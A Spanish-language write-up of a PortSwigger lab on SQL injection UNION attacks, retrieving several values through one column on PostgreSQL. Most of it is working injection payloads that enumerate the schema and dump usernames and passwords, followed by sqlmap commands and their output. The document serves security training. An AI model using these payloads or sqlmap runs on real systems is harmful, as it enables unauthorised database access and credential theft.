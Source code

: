 ```yaml
---
title: "SQL injection UNION attack, retrieving multiple values in a single column"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-15 12:40:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving multiple values in a single column
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-10/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-10/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-10/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-10/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-10/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle` debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-10/image_6.png)


`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-10/image_7.png)

`Listamos` la `base de datos actual`

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-10/image_8.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
/filter?category=Gifts'+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-10/image_9.png)

`Listamos` el `nombre` de las `tablas`

```
/filter?category=Gifts'+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-10/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-10/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+null,string_agg(username||':'||password,',+')+from+users--+-+
```

![](/assets/img/SQLI-Lab-10/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+--------------+
| products     |
| users        |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| email           | varchar |
| password        | varchar |
| username        | varchar |
+-----------------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users -C password,username --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+----------------------+-----------------+
| password             | username        |
+----------------------+-----------------+
| 77mz52vp06wko24p8cl3 | administrator   |
| aqcaasm9mubsp9ngy3m7 | wiener          |
| 1smn2n4jv1mv1uzv5hqm | carlos          |
+----------------------+-----------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-10/image_13.png)
